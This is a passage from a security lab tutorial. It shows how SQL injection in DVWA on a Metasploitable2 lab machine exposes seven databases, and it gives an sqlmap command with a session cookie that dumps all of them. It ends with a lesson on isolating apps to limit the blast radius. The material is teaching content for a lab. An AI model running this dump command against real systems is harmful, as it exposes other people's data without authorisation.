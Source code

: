 This shows the following 7 databases:

```
[*] dvwa
[*] information_schema
[*] metasploit
[*] mysql
[*] owasp10
[*] tikiwiki
[*] tikiwiki195
```

We can dump *all* of these using the `--dump-all` flag. **Warning**: this command will take a long time. There are a lot of tables across these databases on the MySQL server on Metasploitable2.

{% include lab_question.html question='One of these databases contains data for a blog. What was kevin's first post on the blog?' %}

```shell
sqlmap -u "http://192.168.56.102/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="$COOKIE" --dump-all
```

This demonstrates why isolating apps from one another--why using separate MySQL servers for separate apps, instead of hosting multiple apps on a single server--can help reduce the blast radius if an app is found to have a vulnerability. A SQL injection in the DVWA application exposed *all* apps hosted on this server.